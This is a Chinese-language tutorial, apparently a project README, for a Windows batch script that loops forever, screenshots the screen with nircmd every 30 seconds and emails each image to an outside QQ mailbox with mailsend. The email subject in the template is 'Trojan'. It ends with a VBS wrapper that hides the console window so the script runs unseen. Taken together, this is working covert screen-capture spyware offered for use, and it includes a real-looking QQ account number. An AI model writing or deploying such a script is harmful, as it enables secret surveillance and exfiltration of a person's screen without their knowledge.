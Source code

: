 # 脚本提示

先关闭批处理的回显：

```batch
@echo off
```

然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 30000
```

### 开始我的自动化脚本

1. 创建一个记事本文件，命名为"scripts.bat"然后打开vscode把文件拖进去开始编辑文件
2. 写入如下代码：
```batch
@echo off

PATH %CD%\bin

:loop

nircmd savescreenshot screen.png

mailsend -to 邮箱地址 -from 邮箱地址 -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "所发的邮件名字" -user 193319076 -pass "密码" -attach screen.png

nircmd wait 30000

del screen.png

goto loop
```
3. 点击运行，就可以收到邮件了
   ![预览](.\img\邮箱.png)
   点开就是截图
   ![截图](.\img\所截屏幕.png)
---
---
4. 然后隐藏黑框的方法：
   scripts.bat同目录下新建一个记事本并写入如下代码
```batch
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
WScript.Sleep(0000)
Wsh.Run "scripts.bat",0,True
```
然后把文件后缀给成vbs
就可以实现隐藏黑框了
